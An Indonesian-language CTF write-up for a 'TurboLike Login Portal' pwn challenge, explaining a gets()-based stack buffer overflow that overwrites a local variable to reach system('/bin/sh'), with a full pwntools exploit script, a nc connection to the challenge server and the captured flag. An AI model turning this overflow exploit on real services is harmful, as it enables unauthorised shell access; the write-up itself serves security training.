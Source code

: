 # TurboLike-Login-Portal.md
>I just create login service for my new TurboLike v1.0 app. Could you hack this service for me?
```console
nc 103.167.136.89 10020
```

1. Pada challenge ini kita diberikan sebuah binary file dengan arsitektur 64 bit - not stripped.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/1b3f654d-3cf3-44ac-87e4-7e3130fd15b7)


2. Lalu saya mengecek protections yang di apply ke binary file.

> RESULT


![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/b623a709-b88a-4e2e-8f61-9580b19ffac3)


3. Langsung saja kita decompile file binary untuk mengidentifikasi kerentanan.
4. Terdapat fungsi login_user yang dipanggil pada fungsi main. Pada fungsi login_user ini ditemukan kerentanan potensial untuk seragan bufferoverflow yakni pada fungsi gets().
5. Lalu ditemukan adanya pemanggilan system("/bin/sh") yang nantinya akan melakukan "spawn shell". Namun variabel local_18 harus bernilai 1, kita dapat mengubah value yang di stored pada variabel dengan melakukan bufferoverflow.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/813e53a1-cf03-4354-85ea-8f42bb6a8247)


6. Dikarenakan buffer local_58 sebesar 64 bytes, maka dengan memasukkan exact 64 bytes tentunya akan menyebabkan bufferoverflow mengingat tidak adanya ruang untuk null terminator -> \0. Berikut adalah solver yang saya gunakan:

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

offset = 64 

p = flat([
    asm('nop') * offset,
    0x1 # 1
])

sh.sendlineafter(b':', p)
sh.interactive()
```

7. Sebelumnya kita tes dulu secara local.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/f71c50d6-f01e-4bb2-afa4-87172edfa3e9)


8. Kita berhasil mendapatkan shell, yang berarti kita telah berhasil mengubah value dari stack variable.
9. Langsung saja kita send script untuk remote server.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/d94e47ba-41c1-4c7a-b301-05e69e241db3)


Flag yang didapat :
```console
ForestyHC{overwrit1ng_another_variable_on_stack_9af46a}
```
